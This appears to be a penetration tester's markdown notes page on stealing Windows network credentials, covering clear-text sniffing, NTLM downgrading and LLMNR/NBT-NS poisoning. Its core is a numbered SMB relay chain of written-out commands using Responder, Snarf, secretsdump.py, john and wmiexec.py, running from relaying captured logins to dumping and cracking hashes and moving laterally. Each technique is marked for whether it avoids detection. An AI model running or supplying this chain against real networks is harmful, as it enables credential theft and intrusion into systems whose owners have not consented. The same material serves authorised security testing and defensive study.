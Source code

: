 Usernames and domains can be easily identified as they are trasmitted in clear text. Tools:  

 - Cain.  
 - Intercepter.  
 - [PCredz](https://github.com/lgandx/PCredz)  

**NOT OPSEC SAFE**

### Downgrading NTLM 

[CAIN](http://www.oxid.it/ca_um/topics/apr-rdp.htm) functionality can perform a downgrading attack. **NOT OPSEC SAFE**, ARP cache poisioning attacks can be easily detected by mordern defenses.  

### Non-Microsoft systems leaking credentials.  

Web proxies, internal apps, virtualisation consoles, database servers could use Basic Auth or LM network authentication protocols. Even with HTTPS we may be able to extract (privileged) credentials sniffing traffic. **NOT OPSEC SAFE**.  

### LLMNR and NBT-NS Poisoning  

LLMNR and NBT-NS resolve hostnames no IP Addresses. When we try to resolve a hostname, firts contacts the DNS and if that failes LLMNR will be reached.  

SMB Relay requires privileged credentials and SMB signing not enforced.  

  - [Responder](https://github.com/lgandx/Responder)
  - [Snarf](https://github.com/purpleteam/snarf) **OPSEC SAFE**.  

Steps required for the attack:  

  1. ```python RunFinger.py -i IP``` --> Machines not enforcing smb signing. CME does the same.  
  2. Snarf will be used as SMB Server, set SMB=Off inside responder.conf.  
  3. ```node snarf.js <ATTACKING_MACHINE_IP>``` --> Load snarf.  
  4. ```python responder.py -I <iface>```   
  5. Snard captures the SMB connection and keeps it alive.  
  6. ```smbclient -L 127.0.0.1 -U <ANY_USER>``` --> Snarf will forward the captured credentials when connecting to localhost.  
  7. ```net rpc shell -I 127.0.0.1```  
    - ```user edit```
    - ``` disabled administrator``` --> Check if built-in admin is disabled to check if pth is possible.  
  8. ```python secretsdump.py <DOMAIN>/<USER>%<PASSWORD>@127.0.0.1``` --> Dump hashes from the targeted machine without executing any agent.**OPSEC SAFE**  
  9. ```john --format=mscash2 --wordlist=wordlist.txt /root/hashes.txt``` --> Obtained hashes can be cracked offline.  
  10. ```python wmiexec.py <DOMAIN>/<USER>%<PASSWORD>@<TARGET_IP>``` --> Lateral movement using impacket's wmiexec. **OPSEC SAFE**  

From an unprivileged user we still can achieve something:  

  - ```net rpc registry enumerate 'HKEY_USERS' -I 127.0.0.1 -U '<DOMAIN>\<USER>'``` --> Unprivileged users can query HKU hive to identify SIDs of logged users.  
  - ```rpclient 127.0.0.1 -U '<DOMAIN>\<USER>' -c "lookupsids <extracted_sid>"``` --> Resolve SIDs of logged users to identigy administrators.  
